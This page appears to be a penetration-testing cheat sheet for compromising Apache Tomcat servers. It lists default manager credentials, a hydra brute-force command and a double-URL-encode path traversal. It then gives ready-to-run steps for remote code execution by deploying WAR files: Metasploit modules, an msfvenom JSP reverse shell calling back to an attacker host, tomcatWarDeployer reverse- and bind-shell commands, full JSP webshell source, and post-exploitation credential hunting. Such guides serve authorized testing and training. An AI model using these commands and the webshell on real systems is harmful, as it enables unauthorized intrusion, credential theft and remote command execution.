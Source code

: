 # Tomcat

It usually runs on **port 8080**

## Avoid to run with root

In order to not run Tomcat with root a very common configuration is to set an Apache server in port 80/443 and, if the path requested matches a regexp, the request is send to the Tomcat running in other port. 

## Username Enum

In some versions prior to Tomcat6 you could enumerate users:

```bash
msf> use auxiliary/scanner/http/tomcat_enum
```

## Default credentials

The most interesting path of Tomcat is _/manager/html_, inside that path you can upload and deploy war files \(execute code\). But  this path is protected by basic TTP auth, the most common credentials are:

* admin:admin
* tomcat:tomcat
* admin:&lt;NOTHING&gt;
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

You could test these and more using:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

### Bruteforce

This could be needed.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Vulns

### Double URL encode

A well-known vulnerability _to_ access the application manager __ is mod\_jk in CVE-2007-1860, that allows **Double URL encode path traversal.**

In order to access to the management web of the Tomcat go to: _pathTomcat/%252E%252E/manager/html_

Take into account that to upload the webshell you could need to use the double urlencode trick and send also a cookie and/or a SSRF token.  
To access to backdoor you could also need to use the double urlencode trick.

### /examples

The following example scripts that come with Apache Tomcat v4.x - v7.x and can be used by attackers to gain information about the system. These scripts are also known to be vulnerable to cross site scripting \(XSS\) injection \(from [here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)\).

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

## RCE

Finally, if you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file \(execute code\)**.

### Limitations

You will only be able to deploy a WAR if you have **enough privileges** \(roles: **admin**, **manager** and **manager-script**\). Those details can be find under _tomcat-users.xml_ usually defined in `/usr/share/tomcat9/etc/tomcat-users.xml` \(it vary between versions\) \(see [POST ](tomcat.md#post)section\).

```bash
# /!\ tomcat7 and above uses /manager/text/undeploy and /manager/text/deploy paths
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war "http://tomcat:Password@localhost:8080/manager/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/undeploy?path=/monshell"
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war
```

Then, upload the revshell.war file and access to it \(_/revshell/_\)

### Bind and reverse shell with [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

In some scenarios this doesn't  work \(for example old versions of sun\)

#### Download

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Reverse shell

```bash
./tomcatWarDeployer.py -U <username> -P <password>-H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

#### Bind shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Using [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Manual method - Web shell

Create **index.jsp** with this content:

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```

You could also install this \(allows upload, download and command execution\): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

## POST

Name of tomcat credentials file is _tomcat-users.xml_ 

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Other ways to gather tomcat credentials:

```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```


